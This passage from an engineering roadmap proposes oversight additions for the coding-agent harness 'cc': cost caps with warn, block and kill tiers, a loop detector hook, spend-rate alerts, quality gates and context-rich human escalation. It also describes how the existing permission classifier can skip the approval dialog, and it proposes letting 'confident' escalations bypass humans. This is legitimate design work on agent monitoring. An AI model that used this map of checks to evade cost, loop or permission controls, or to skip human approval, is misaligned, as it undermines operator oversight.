    class AgentDashboard {
        +renderProgress(): void
        +renderHealth(): void
        +renderCost(): void
        +renderContextUtil(): void
    }

    Existing --> CostCap : cost-tracker adds cap
    Existing --> EscalationRecord : AskUserQuestion gains context
    Existing --> TraceSpan : analytics gains spans
    QualityGatePipeline --> CostCap : cost gate
    QualityGatePipeline --> EscalationRecord : quality gate
    QualityGatePipeline --> LoopDetector : loop gate
    QualityGatePipeline --> SpendRateMonitor : spend gate
    TraceSpan --> QualityGatePipeline : trace gate evaluations
    AgentDashboard --> TraceSpan : display trace tree
    AgentDashboard --> CostCap : display budget status
    AgentDashboard --> LoopDetector : display loop alerts
    AgentDashboard --> SpendRateMonitor : display spend trends
```

### Track 1: Keep

These subsystems already embody HER principles and should be preserved as-is.

**Permission modes and the classifier pipeline.** cc's tiered permission system (default, plan, acceptEdits, bypassPermissions, dontAsk, auto) maps directly to HER Section 11's tiered escalation. The speculative classifier in `useCanUseTool.tsx` that races a 2-second classifier check against a dialog prompt implements HER Section 11.2's "Tier 1 (automated) checks before Tier 3 (human) dialog":

```typescript
// src/hooks/useCanUseTool.tsx:L126 — speculative classifier races dialog
if (feature("BASH_CLASSIFIER") && result.pendingClassifierCheck && tool.name === BASH_TOOL_NAME && !appState.toolPermissionContext.awaitAutomatedChecksBeforeDialog) {
```

This is exactly the tiered-escalation pattern. The classifier runs as a Tier 1 check; if it returns a verdict within the race window, the dialog (Tier 3) is skipped. Keep it.

**Compaction hierarchy.** The five-stage compaction system (`<history_snip>` -> microcompact -> context collapse -> autocompact -> hard reset) implements HER Pattern 5 (progressive context compaction) as well as any system in the field. The circuit breaker for consecutive compaction failures is a sound back-pressure mechanism. The graduated-response pattern -- cheap automatic fix first, expensive model invocation second, human escalation last -- should be the model for all new resource-management subsystems. Keep it.

**Session persistence and resume.** JSONL-based session storage with tombstones implements HER Pattern 3 (tiered memory) at the session level. The resume flow correctly restores cost state via `restoreCostStateForSession` in `src/cost-tracker.ts:L130-L137`. The `saveCurrentSessionCosts` function at `src/cost-tracker.ts:L143-L175` persists per-model usage, cache read/write tokens, and web search counts, providing a complete accounting picture across session boundaries. Keep it.

**GrowthBook feature flags.** The GrowthBook integration in `src/services/analytics/growthbook.ts` provides the remote-eval, experiment-exposure-tracking infrastructure needed for safe rollout of any new subsystem. Every proposed addition in this roadmap should be feature-gated behind a GrowthBook flag before it ships, allowing gradual rollout and instant rollback. Keep it.

**Deferred tool loading via ToolSearch.** The progressive tool expansion system implements HER Pattern 9 and addresses the Tool Explosion failure mode (HER Section 6.8) by keeping the initial tool set small and loading additional tools on demand. The `shouldDefer` flag on tools like `AskUserQuestionTool` keeps them out of the initial prompt, reducing token cost. Keep it.

### Track 2: Rewrite

**Cost tracker: from accumulator to gatekeeper.** The current `addToTotalSessionCost` is a passive accumulator with no enforcement. It tracks cost per model and per session but cannot stop a runaway task. The rewrite adds per-task cost-cap enforcement: before each tool dispatch, the pipeline checks whether the current task's `CostCap` is in the `exceeded` state. If so, the dispatch is denied and the work is queued for human review.

The existing cost-state shape in `src/cost-tracker.ts:L71-L80` already stores model-level usage:

```typescript
// src/cost-tracker.ts:L71-L80 — StoredCostState tracks per-model usage but no per-task caps
type StoredCostState = {
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  totalLinesAdded: number
  totalLinesRemoved: number
  lastDuration: number | undefined
  modelUsage: { [modelName: string]: ModelUsage } | undefined
}
```

The rewrite extends this with a `costCaps` map keyed by task ID. The `addToTotalSessionCost` function gains a guard: if the task's cost cap is exceeded, the function throws a `BudgetExceededError` that the query loop catches and routes to the escalation pipeline. The error includes the `CostCap` state and the `EscalationRecord` so the human can make an informed decision about whether to increase the budget or accept partial results.

The rewrite also adds cost-per-outcome tracking, which HER Section 13.4 prescribes. The current cost tracker measures cost-per-token (implicitly, via the per-model usage breakdown) but not cost-per-completed-task. The extended `StoredCostState` includes a `taskOutcomes` map that records the cost of each completed task, enabling operators to compare harness configurations on a per-outcome basis.

### Cost enforcement: from accumulator to gatekeeper implementation

The cost cap contract described above needs a concrete enforcement function and a wiring plan that integrates with cc's existing query loop and tool dispatch pipeline. The following implementation defines the three-tier cost gate (soft, hard, kill) and shows where each tier's enforcement logic attaches to cc's existing code paths.

The `CostCap` interface extends the per-task cap described earlier with session-level tiers. The three thresholds correspond to progressively stronger interventions — warning the model, blocking new tool calls while allowing cleanup, and forcing an immediate session end with handoff file emission:

```typescript
// Proposed implementation — not in cc source, recommended addition
interface CostCap {
  softLimitUSD: number    // Warn the model, suggest cheaper approaches
  hardLimitUSD: number    // Block new tool calls, allow cleanup
  killLimitUSD: number    // Force session end, write handoff file
}

function enforceCostCap(
  currentCostUSD: number,
  cap: CostCap,
  taskId?: string,
): 'allow' | 'warn' | 'block' | 'kill' {
  if (currentCostUSD >= cap.killLimitUSD) return 'kill'
  if (currentCostUSD >= cap.hardLimitUSD) return 'block'
  if (currentCostUSD >= cap.softLimitUSD) return 'warn'
  return 'allow'
}
```

The three-tier design follows the same graduated-response pattern that cc uses for compaction (microcompact -> autocompact -> hard reset) and permission denial tracking (`DENIAL_LIMITS.maxConsecutive = 3` before circuit-breaking in `src/utils/permissions/denialTracking.ts:L12`). The `killLimitUSD` is the analogue of `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES` — a hard ceiling beyond which the system stops trying and writes state to disk.

**Wiring into the query loop.** The cost enforcement function is called at two interception points: before each `query()` iteration in `src/query.ts`, and before each tool dispatch in `src/services/tools/toolExecution.ts`. The query-loop check catches cost overruns between tool calls; the tool-dispatch check catches overruns within a single turn that includes multiple tool calls.

The query-loop integration reads `getTotalCostUSD()` from `src/bootstrap/state.ts:L51` (the same state field that `addToTotalSessionCost` in `src/cost-tracker.ts:L278` writes to) and calls `enforceCostCap`:

```typescript
// Proposed implementation — not in cc source, recommended addition
// Inserted at the start of each query() iteration
import { getTotalCostUSD } from './bootstrap/state.js'

function checkCostBeforeQuery(
  cap: CostCap,
  currentTaskId?: string,
): void {
  const currentCost = getTotalCostUSD()
  const verdict = enforceCostCap(currentCost, cap, currentTaskId)

  switch (verdict) {
    case 'allow':
      break

    case 'warn': {
      // Prepend a cost warning to the system prompt for this turn
      const warningMsg =
        `[Cost Warning] Session spend is $${currentCost.toFixed(4)}, ` +
        `approaching soft limit of $${cap.softLimitUSD.toFixed(2)}. ` +
        `Prefer cheaper operations: read over write, Haiku over Opus, ` +
        `cached results over fresh API calls.`
      injectSystemMessage(warningMsg)
      break
    }

    case 'block': {
      // Allow only read-only tools and exit-related operations
      const blockMsg =
        `[Cost Block] Session spend is $${currentCost.toFixed(4)}, ` +
        `exceeding hard limit of $${cap.hardLimitUSD.toFixed(2)}. ` +
        `Only read-only tools and session cleanup are permitted. ` +
        `Complete the current task and exit.`
      injectSystemMessage(blockMsg)
      setToolFilter(tool =>
        tool.isReadOnly?.() === true ||
        tool.name === 'TodoWrite' ||
        tool.name === 'AskUserQuestion',
      )
      break
    }

    case 'kill':
      // Write handoff file and force session end
      writeHandoffFile(
        getProjectRoot(),
        getSessionId(),
        'cost_limit',
        getCurrentTasks(),
        getLastToolName(),
        getLastFilePath(),
        getKeyDecisions(),
        getOpenQuestions(),
        getManifestPath(),
        getConvergenceLogPath(),
        getTotalInputTokens() + getTotalOutputTokens(),
        currentCost,
      )
      throw new CostKillError(
        `Session terminated: cost $${currentCost.toFixed(4)} ` +
        `exceeded kill limit $${cap.killLimitUSD.toFixed(2)}`,
      )
  }
}
```

The `block` tier's tool filter leverages the same read-only classification that cc's `BashTool` already performs in `src/tools/BashTool/commandSemantics.ts` and `src/tools/BashTool/readOnlyValidation.ts`. By allowing `TodoWrite` (to update task status) and `AskUserQuestion` (to request budget extension from the human), the agent can gracefully conclude its current task rather than being cut off mid-operation.

The `kill` tier invokes the handoff writer described in Chapter 55's session handoff section, ensuring that remaining tasks and context hints are persisted before the session terminates. The `CostKillError` propagates up to the REPL's main loop in `src/screens/REPL.tsx`, where it triggers the same graceful shutdown path used by `executeSessionEndHooks` in `src/utils/hooks.ts:L4097`.

**Per-task cost attribution.** To support per-task cost caps (not just per-session), the `addToTotalSessionCost` function in `src/cost-tracker.ts:L278-L323` needs a `taskId` parameter threaded through the call chain. The existing function signature accepts `cost`, `usage`, and `model`; the extended version adds an optional `taskId` that routes cost to a per-task accumulator:

```typescript
// Proposed extension to src/cost-tracker.ts:L278 — not in cc source
const taskCosts = new Map<string, number>()

function addToTaskCost(taskId: string, cost: number): number {
  const current = taskCosts.get(taskId) ?? 0
  const updated = current + cost
  taskCosts.set(taskId, updated)
  return updated
}

function getTaskCost(taskId: string): number {
  return taskCosts.get(taskId) ?? 0
}
```

The `taskId` originates from the task list managed by `TodoWriteTool` and is threaded through the dispatch chain: `query()` reads the current task ID from the session state, passes it to the tool execution pipeline, and the pipeline passes it to `addToTotalSessionCost`. This threading reuses the same pattern that cc already uses for `requestId` — a correlation identifier that flows from the API response through tool dispatch and back to analytics logging.

The cost enforcement flow, end to end, follows this path:

```mermaid
flowchart TD
    A["query() iteration starts"] --> B["getTotalCostUSD()"]
    B --> C{"enforceCostCap()"}
    C -->|allow| D["Proceed to model call"]
    C -->|warn| E["Inject cost warning\ninto system prompt"]
    E --> D
    C -->|block| F["Filter to read-only tools\n+ cleanup tools"]
    F --> D
    C -->|kill| G["writeHandoffFile()"]
    G --> H["throw CostKillError"]
    H --> I["SessionEnd hooks fire"]
    I --> J["Session terminates"]
    D --> K["Model responds with tool calls"]
    K --> L["For each tool call:\ncheck per-task cost cap"]
    L --> M{"Task cap exceeded?"}
    M -->|No| N["Execute tool"]
    M -->|Yes| O["Deny tool call\n+ escalate to human"]
    N --> P["addToTotalSessionCost()\n+ addToTaskCost()"]
    P --> A
```

The vertical integration — session-level cap checked at query-loop entry, per-task cap checked at tool-dispatch time, cost accumulated after each tool call — ensures that cost enforcement is both prompt (catching overruns within a single turn) and comprehensive (catching overruns across turns). The graduated response (warn -> block -> kill) gives the model opportunities to self-correct before the harness intervenes destructively, matching the same philosophy that cc's compaction hierarchy uses for context management.

**Analytics sink: from event log to trace collector.** The current `AnalyticsSink` interface logs flat events with no causal linkage. The rewrite adds span creation and propagation. Every `logEvent` call gains an optional `parentSpanId` parameter. The sink maintains an in-memory trace tree that can be exported in OpenTelemetry format.

This is not a full rewrite -- the existing `logEvent` and `logEventAsync` signatures are preserved -- but the internal representation changes from a flat event stream to a hierarchical trace. The `attachAnalyticsSink` function in `src/services/analytics/index.ts:L95-L123` already queues events before the sink is attached; the rewrite extends this queue to carry span context, so events logged during startup (before the sink is attached) are still linked to their parent spans when the sink drains the queue.

The rewrite also addresses the observability gap that HER Section 14.2 identifies: "Agents fail silently because their response format looks correct. A 200 OK from a tool call doesn't mean the operation succeeded semantically." The trace spans include a `semanticStatus` field (distinct from the HTTP-style `status`) that captures whether the tool's result achieved its intended effect. This field is populated by the quality-gates pipeline: if a gate fails after a tool call, the span's `semanticStatus` is set to `error` even if the tool itself returned successfully.

**AskUserQuestion: from bare prompt to context-rich escalation.** The current tool accepts structured questions and returns structured answers, but provides no context about *why* the agent is asking. The tool's `checkPermissions` method in `src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L182-L188` always returns `behavior: 'ask'`, meaning every question is treated as a Tier 3 escalation regardless of urgency:

```typescript
// src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L182-L188 — all questions are Tier 3
  async checkPermissions(input) {
    return {
      behavior: 'ask' as const,
      message: 'Answer questions?',
      updatedInput: input,
    }
  },
```

The rewrite wraps `AskUserQuestionTool.call()` in an escalation pipeline that prepends the `EscalationRecord` to the prompt, giving the human the full decision context that HER Section 11.4 demands. The `checkPermissions` method gains tier-awareness: Tier 1-2 escalations (where the agent is confident) bypass the dialog entirely, while Tier 3-4 escalations route to `AskUserQuestionTool` with the full context.

The rewrite also implements HER Section 11.3's async-approval pattern. When a Tier 4 escalation blocks the agent's current task, the agent does not hang. Instead, the `SendMessageTool` dispatches the blocked context to the human and the agent continues with non-blocked work from its task queue. When the human responds (via the bridge, the REPL, or a channel integration), the blocked task resumes with the human's decision.

### Track 3: Add

**Loop detector.** HER Section 14.4 prescribes loop detection: "same tool called with same parameters N times in M minutes." cc has no such detector. The proposed `LoopDetector` maintains a sliding window of recent tool calls (tool name, input hash, timestamp) and flags when a call matches a previous call within the window. The detector is wired into the `PreToolUse` hook pipeline: when a loop is detected, the tool dispatch is denied and the agent receives a system prompt nudge to try a different approach.

The implementation draws on the same sliding-window pattern used by the autocompact circuit breaker in `src/services/compact/autoCompact.ts:L70`, where `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES` is set to 3. The loop detector uses a similar threshold: 3 identical calls within 5 minutes triggers a loop alert. The threshold is configurable via settings, and the detector can be disabled entirely for tasks that legitimately require repetitive polling.

The detector's output is a `LoopDetectionRecord` that flows into the `TraceSpan` system, so loop events appear in the trace tree alongside tool calls and model invocations. This enables the agent dashboard (described below) to display loop alerts in real time.

### Loop detection: from record to working implementation

The `LoopDetectionRecord` above describes *what* to capture; the following implementation shows *how* to capture it and *where* to wire it into cc's tool dispatch pipeline. The core abstraction is a `LoopDetector` class that maintains a sliding window of recent tool calls, hashes each call's identity (tool name plus input), and returns a three-valued verdict: `allow`, `warn`, or `block`.

```typescript
// Proposed implementation — not in cc source, recommended addition
import { createHash } from 'crypto'

class LoopDetector {
  private window: Array<{ hash: string; timestamp: number }> = []
  private readonly windowSize: number
  private readonly threshold: number
  private readonly pollableTools: Set<string>

  constructor(opts: {
    windowSize?: number
    threshold?: number
    pollableTools?: string[]
  }) {
    this.windowSize = opts.windowSize ?? 10
    this.threshold = opts.threshold ?? 3
    this.pollableTools = new Set(
      opts.pollableTools ?? ['Monitor', 'TaskGet'],
    )
  }

  check(toolName: string, input: unknown): 'allow' | 'warn' | 'block' {
    // Pollable tools (status checks, monitoring) are exempt
    if (this.pollableTools.has(toolName)) return 'allow'

    const hash = this.computeHash(toolName, input)
    this.window.push({ hash, timestamp: Date.now() })
    if (this.window.length > this.windowSize) this.window.shift()

    const matches = this.window.filter(e => e.hash === hash).length
    if (matches >= this.threshold) return 'block'
    if (matches >= this.threshold - 1) return 'warn'
    return 'allow'
  }

  reset(): void {
    this.window = []
  }

  private computeHash(toolName: string, input: unknown): string {
    return createHash('sha256')
      .update(JSON.stringify({ toolName, input }))
      .digest('hex')
      .slice(0, 16)
  }
}
```

The `computeHash` function uses SHA-256 truncated to 16 hex characters. This is deliberately collision-tolerant — a false positive (two different inputs producing the same hash) causes an earlier warning, which is the safe direction. The sliding window evicts old entries by count (`windowSize`), not by time, because the detector's purpose is to catch *consecutive* repetition within a bounded scope. A time-based window would miss loops that span long tool calls (e.g., a 5-minute build command repeated identically three times would fall outside a 5-minute window but still be a loop).

The `pollableTools` exemption set is critical for avoiding false positives. Tools like `Monitor` (which polls background process output) and `TaskGet` (which reads the current task list) are *expected* to be called repeatedly with identical inputs. Without this exemption, every multi-step task that checks its own progress would trigger the loop detector. The set is configurable via the settings cascade, and new tools can be added by operators who observe false positives in their specific workflows.

**Wiring into the PreToolUse hook pipeline.** The loop detector integrates with cc's hook infrastructure at the `PreToolUse` interception point. The `runPreToolUseHooks` function in `src/services/tools/toolHooks.ts:L435` iterates over registered hooks before each tool dispatch, yielding results that can modify the tool input, deny the call, or inject additional context. The loop detector registers as a `PreToolUse` hook that calls `loopDetector.check()` and maps the verdict to hook actions:

```typescript
// Proposed implementation — not in cc source, recommended addition
function createLoopDetectorHook(
  detector: LoopDetector,
): (toolName: string, input: Record<string, unknown>) => {
  blockingError?: string
  additionalContext?: string
} {
  return (toolName: string, input: Record<string, unknown>) => {
    const verdict = detector.check(toolName, input)

    switch (verdict) {
      case 'allow':
        return {}

      case 'warn':
        // Inject a system message nudging the model to change approach
        return {
          additionalContext:
            `[Loop Warning] You have called ${toolName} with similar ` +
            `parameters multiple times. Consider a different approach: ` +
            `change the input, try a different tool, or re-read the ` +
            `error output more carefully before retrying.`,
        }

      case 'block':
        // Deny the tool call with an explanation
        return {
          blockingError:
            `[Loop Blocked] Tool call denied: ${toolName} has been ` +
            `called with identical parameters ${detector['threshold']} ` +
            `times in the last ${detector['windowSize']} tool calls. ` +
            `This indicates the current approach is not making progress. ` +
            `You must try a fundamentally different strategy.`,
        }
    }
  }
}
```

On `warn`, the hook returns `additionalContext` — a system message that the `runPreToolUseHooks` generator yields as a `{ type: 'additionalContext' }` event, which the tool execution pipeline in `src/services/tools/toolExecution.ts:L800` prepends to the model's next turn. This is a soft intervention: the model sees the warning but can still proceed with a different input. On `block`, the hook returns `blockingError`, which `runPreToolUseHooks` maps to a `{ type: 'hookPermissionResult', hookPermissionResult: { behavior: 'deny' } }` event at `src/services/tools/toolHooks.ts:L481-L494`. The tool call is denied, and the model receives the error message as tool output, forcing it to change approach.

The hook registration follows the same pattern as cc's existing configurable hooks. In `settings.json`, the loop detector appears as a `PreToolUse` hook with configurable thresholds:

```jsonc
// Proposed hook configuration — settings.json
{
  "hooks": {
    "PreToolUse": [{
      "type": "builtin",
      "builtin": "loop-detector",
      "config": {
        "windowSize": 10,
        "threshold": 3,
        "pollableTools": ["Monitor", "TaskGet", "TodoRead"]
      }
    }]
  }
}
```

The interaction between the loop detector and cc's existing circuit breakers is worth noting. The autocompact circuit breaker (`MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` in `src/services/compact/autoCompact.ts:L70`) catches compaction-specific loops. The permission denial tracker (`DENIAL_LIMITS.maxConsecutive = 3` in `src/utils/permissions/denialTracking.ts:L12`) catches permission-specific loops. The loop detector catches *all other* tool-level loops that these specialized detectors miss — the common case of an agent editing a file, running a test, getting the same error, and editing the file the same way again. Together, these three mechanisms form a defense-in-depth against repetitive behavior at different layers of the stack.

**Spend-rate monitor.** HER Section 13.2 prescribes "per-hour spend rate alert -- anomaly detection on spend velocity." cc tracks cumulative cost but not spend velocity. The proposed `SpendRateMonitor` computes a rolling average of cost-per-minute and fires an alert when the current rate exceeds 2x the rolling average. The monitor is wired into the query loop's post-iteration hook: when the rate is anomalous, the harness pauses the session and prompts the user to confirm continuation.

The monitor also implements HER Section 13.3's early-termination strategy: "Kill sessions that are clearly stuck (loop detection, no-progress-for-N-minutes)." The spend-rate monitor and the loop detector share a `staleness` signal -- if the agent has not made a git commit or updated a progress file for N minutes AND the spend rate is above average, the harness treats the session as stuck and offers to terminate it.

**Quality-gates pipeline.** The largest addition. As described in the control-flow section, this pipeline wires deterministic checks (lint, type-check, test) into the query loop's IMPLEMENT -> TEST boundary. Each gate is a `PostToolUse` hook that evaluates the tool's result and returns a pass/fail/escalate verdict. The pipeline's routing logic maps verdicts to actions per HER Section 11's tiered escalation model.

The pipeline's implementation leverages cc's existing hook infrastructure. Each gate is registered as a `PostToolUse` hook with a specific tool-name filter (e.g., the lint gate only fires after `FileWriteTool` and `FileEditTool` calls). The gate's implementation is a deterministic function that runs the appropriate check command via `BashTool`'s read-only classifier and returns a structured verdict.

**Agent dashboard.** HER Section 14.3 prescribes a multi-hour session dashboard showing progress, health, cost, context utilization, quality trends, and alerts. cc's REPL displays cost and context percentage but has no persistent dashboard view. The proposed dashboard is a `/dashboard` slash command that renders a terminal-based summary of the current session's state, drawing data from the trace spans, cost caps, loop detector, and spend-rate monitor.

The dashboard displays six panels: (1) task progress (completed vs. remaining from `TodoWriteTool`'s task list), (2) health (loop alerts, staleness signals, consecutive failures), (3) cost (cumulative spend, spend rate, per-task cost-cap status), (4) context (window utilization, last compaction time, compaction failure count), (5) quality (gate pass/fail rates, evaluator scores over time), and (6) alerts (degradation patterns detected by the loop detector and spend-rate monitor).

The dashboard is also the delivery mechanism for HER Section 14.4's alerting patterns. Loop detection alerts, context-rot signals, cost spikes, quality degradation, and staleness warnings all appear in the dashboard's alert panel. The alerts are structured: each includes the detection time, the metric that triggered it, the current value, and the threshold, enabling the operator to make informed triage decisions.

**Cost-per-outcome tracker.** HER Section 13.4 prescribes tracking cost-per-completed-task and cost-per-quality-unit, not just cost-per-token. The proposed `OutcomeTracker` records the cost of each completed task alongside a quality metric (test pass rate, lint clean, reviewer score). This enables operators to compare harness configurations on a per-outcome basis: "Configuration A costs $2.50/task at 85% quality; Configuration B costs $4.00/task at 92% quality."

## Edge cases and failure modes

### Budget exceeded during subagent dispatch

When a subagent's task budget is exceeded, the parent agent must not hang indefinitely. The budget-exceeded error propagates up through the `AgentTool` dispatch chain, and the parent agent's escalation pipeline decides whether to (a) allocate more budget, (b) accept partial results, or (c) mark the subtask as failed and continue with remaining work. This is the async-approval pattern from HER Section 11.3: "The agent should never fully block on human input. Always have a queue of independent tasks to work on while waiting."

The implementation must handle the case where the parent agent's own budget is also approaching its limit. If the parent's `CostCap` is in the `warning` state, allocating more budget to a subagent may push the parent into the `exceeded` state. The budget-allocation logic must check both the parent's and the subagent's caps atomically, using the same filesystem-locking pattern that cc's task system already uses in `src/utils/tasks.ts`.

### Loop detector false positives

Legitimate retry patterns (e.g., waiting for a build to succeed, polling a status endpoint) can trigger the loop detector. The detector must distinguish between *progress-advancing retries* (different input each time) and *stuck retries* (identical input). The sliding-window hash comparison handles this naturally: if the input hash changes between iterations, the call is not counted as a loop. Additionally, the loop detector respects a configurable `maxIdenticalCalls` threshold (default: 3) and a `windowMs` (default: 5 minutes), both adjustable via settings.

A second class of false positives arises from intentionally repetitive operations: running the same test suite multiple times during a debugging session, or polling a CI status endpoint at fixed intervals. The loop detector addresses this with a tool-level override: tools can declare themselves as `pollable` in their definition, which tells the detector to skip loop checking for calls to that tool with the same input. The `BashTool` already has a `readOnly` classifier in `src/tools/BashTool/commandSemantics.ts` and `src/tools/BashTool/readOnlyValidation.ts` that categorizes commands by their mutation potential; the `pollable` flag is a natural extension of this same classification pipeline. Rather than introducing a new top-level field, the `pollable` designation can be implemented as an additional semantic tag alongside the existing read/write/destructive risk bands. When the loop detector encounters a tool call whose command has been classified as `pollable`, it skips the sliding-window comparison entirely, allowing the agent to poll without triggering false loop alerts. The `pollable` tag would be assigned automatically for commands that match known polling patterns (e.g., `git status`, `kubectl get`, `docker ps`) and could also be set manually via the settings cascade.

### Spend-rate spikes from expensive models

A single Opus call can cost 10-30x a Haiku call. The spend-rate monitor must account for model cost asymmetry when computing the rolling average. A single expensive call should not trigger a false spike alert if the *token* spend rate is within normal bounds. The monitor computes two rates -- cost-per-minute and tokens-per-minute -- and only fires when *both* exceed their thresholds simultaneously.

The implementation must also handle the case where the agent deliberately switches to a more expensive model for a complex task. The spend-rate monitor should not penalize a one-time model upgrade. The anomaly detection uses a weighted rolling average that gives more weight to recent data points: a single expensive call raises the rolling average, making subsequent expensive calls less likely to trigger an alert. This is the same smoothing technique used in time-series anomaly detection for server monitoring.

### Quality-gate timeout

Deterministic gates (lint, type-check, test) can hang if the underlying tool stalls. Each gate has a configurable timeout (default: 30 seconds for lint, 60 seconds for type-check, 120 seconds for test). If a gate times out, the verdict is `escalate` rather than `fail`, routing the decision to a human rather than automatically rejecting the tool result.

The timeout mechanism must handle the case where multiple gates are queued in sequence. If the lint gate times out and the type-check gate is also queued, the type-check gate is skipped (its result would be unreliable without the lint output). The pipeline records the timeout in the `TraceSpan` so it appears in the dashboard's alert panel.

### Trace-span cardinality explosion

In a multi-agent swarm with dozens of subagents, the trace tree can grow to thousands of spans per minute. The trace collector must enforce a cardinality cap: if the number of active spans exceeds a threshold (default: 10,000), the oldest spans are evicted. This mirrors the compaction hierarchy's approach to context management -- aggressive but bounded.

The eviction policy must preserve spans that are still active (i.e., spans whose `endTime` is undefined). Evicting an active span would break the trace tree's parent-child linkage. The collector uses a least-recently-completed eviction policy: completed spans are evicted in LRU order before any active span is touched.

### Escalation-record overflow in context window

If an agent escalates frequently, the `EscalationRecord` payloads can consume significant context-window space. Each record includes the agent's intent, attempts, and options, which can total hundreds of tokens. In a multi-hour session with dozens of escalations, the cumulative payload can push the context toward the autocompact threshold.

The solution mirrors the observation masking technique that HER Section 13.3 documents (52% cost reduction from hiding irrelevant tool outputs). After a human responds to an escalation, the full `EscalationRecord` is replaced with a summary: the question asked, the answer given, and the outcome. The full record is persisted to the trace tree (where it does not consume context-window space) but is removed from the conversation history.

### Dashboard rendering during compaction

The dashboard reads from the trace tree and the task budget system, both of which are in-memory data structures. During compaction, the conversation history is rewritten but the in-memory structures are not. The dashboard must handle the case where it reads stale data after a compaction pass: the trace tree may reference message IDs that no longer exist in the conversation. The dashboard uses the `markPostCompaction` function from `src/bootstrap/state.ts` (already called by the autocompact pipeline) as a signal to refresh its cache.

### Migration path for in-progress sessions

When a new subsystem (cost cap, loop detector, quality-gates pipeline) is deployed, sessions that are already in progress must continue operating without interruption. The migration strategy leverages cc's existing feature-gate infrastructure: each new subsystem is gated behind a GrowthBook flag, and the flag is evaluated per-query-iteration, not per-session. This means that a session started before the flag was enabled will begin using the new subsystem on its next query iteration, without requiring a restart.

For the `CostCap` subsystem, the migration is straightforward because cost caps are purely additive. A session that was already in progress when the cap is enabled immediately starts enforcing the cap on subsequent tool dispatches. There is no need to retroactively apply the cap to tool calls that already completed. The `CostCap` state is initialized from the session's current cumulative cost (via `getTotalSessionCost` in `src/cost-tracker.ts`), so the cap is measured from the point of activation rather than from session start.

For the quality-gates pipeline, the migration requires more care. A session that has already completed several tool calls without gate checks must not suddenly fail a gate on a previously accepted pattern. The pipeline addresses this with a warm-up period: for the first N tool calls after activation (default: 5), gate failures produce warnings but do not block the tool result. This gives the agent time to adapt its behavior to the new constraints without breaking in-progress work.

For the loop detector, the migration is also additive. The sliding window starts empty when the detector is activated, so there are no historical calls to trigger false positives. The detector only begins flagging loops after it has accumulated enough history within the window, which naturally occurs after a few query iterations.

## Where cc diverges from the published pattern

**Passive cost tracking vs. active budget enforcement.** HER Section 13.2 prescribes per-task and per-session cost caps. cc tracks cost passively and displays it at session end. There is no mechanism to stop a task that has exceeded its budget. The `addToTotalSessionCost` function in `src/cost-tracker.ts:L278` is a void accumulator, not a gate. This is the single largest divergence between cc and the HER cost-control architecture. The consequences are documented in the BigQuery data that motivated the autocompact circuit breaker: sessions with 50+ consecutive failures wasted ~250K API calls/day. The same runaway pattern applies to cost: a stuck agent in an infinite loop burns dollars per minute until the user manually intervenes.

**Flat event logging vs. distributed tracing.** HER Section 14.1 prescribes distributed tracing across multi-agent workflows. cc's `AnalyticsSink` in `src/services/analytics/index.ts:L72` logs flat events with no span linkage. There is no way to reconstruct the causal chain from a subagent's tool call back to the parent agent's dispatch decision. The only trace-like data is the JSONL session log, which is session-scoped and cannot span agents. The `logEvent` function at `src/services/analytics/index.ts:L133-L144` accepts an event name and a metadata record of booleans and numbers -- no trace IDs, no parent references, no operation names. This is sufficient for analytics ("how many users ran the Bash tool today?") but insufficient for debugging ("why did the subagent's file edit fail?").

**Bare human prompts vs. context-rich escalation.** HER Section 11.4 prescribes that escalations carry full context (intent, attempts, options, recommendation). cc's `AskUserQuestionTool` in `src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L209` accepts structured questions and returns structured answers but carries no metadata about the agent's decision context. The human must reconstruct the situation from the conversation history. The tool's `mapToolResultToToolResultBlockParam` method at `src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L224-L244` formats the response as "User has answered your questions: ..." but provides no summary of what led to the question.

**No loop detection.** HER Section 14.4 prescribes loop detection as a first-class alerting pattern. cc has no loop detector. The only protection against infinite loops is the autocompact circuit breaker in `src/services/compact/autoCompact.ts:L258`, which fires after compaction failures, not after repetitive tool calls. A stuck agent can burn thousands of tokens per minute before compaction triggers. The `shouldAutoCompact` function in `src/services/compact/autoCompact.ts:L160-L239` has extensive guards against recursion and feature-gated modes, but none of these guards detect the specific failure mode of an agent calling the same tool with the same parameters repeatedly.

**No spend-rate monitoring.** HER Section 13.2 prescribes per-hour spend-rate alerts. cc tracks cumulative cost but not spend velocity. A session that spikes from $0.10/minute to $5.00/minute goes undetected until the user notices the total cost at session end. The `formatTotalCost` function in `src/cost-tracker.ts:L228-L244` displays the total cost, API duration, wall duration, code changes, and per-model usage, but no rate information.

**No cost-per-outcome tracking.** HER Section 13.4 prescribes tracking cost-per-completed-task and cost-per-quality-unit. cc tracks cost-per-model (via the `modelUsage` map in `StoredCostState`) but has no concept of task outcomes. The `TodoWriteTool` records task status (pending, in_progress, completed) but does not link task completion to cost. There is no way to answer the question: "how much did each completed task cost?"

**No multi-hour session dashboard.** HER Section 14.3 prescribes a dashboard showing progress, health, cost, context utilization, quality trends, and alerts. cc's REPL shows the current cost and context percentage in a status bar, but this is a moment-in-time snapshot, not a trend view. An operator running a multi-hour session has no way to see whether the agent is making progress, whether the context is degrading, or whether the quality of output is declining.

## Developer takeaways for building a long-running agent

The roadmap yields five principles that should govern any team building on the cc codebase. First, gate cost rather than merely tracking it: a production harness must refuse tool dispatch when a `CostCap` is exceeded, placing the guard in the query loop rather than a post-hoc dashboard. Second, wire deterministic quality gates (lint, type-check, test) into the query loop as `PostToolUse` hooks that return pass/fail/escalate verdicts, using the compaction hierarchy's graduated-response pattern as the model for all new resource-management subsystems. Third, make every human-in-the-loop prompt context-rich by default via `EscalationRecord` payloads, add loop detection as a `PreToolUse` hook before you need it, and track spend rate as a leading indicator rather than relying solely on cumulative cost. Fourth, add OpenTelemetry-compatible trace spans to every tool dispatch so that causal chains can be reconstructed across subagent boundaries, and separate generation from evaluation using deterministic checks to avoid the Ouroboros problem. Fifth, enforce one task per session, treat every external input as untrusted, budget for 3-10x the happy-path cost, and simplify relentlessly as models improve -- every harness component encodes assumptions about model limitations that go stale fast.

### Greenfield implementation ordering guide

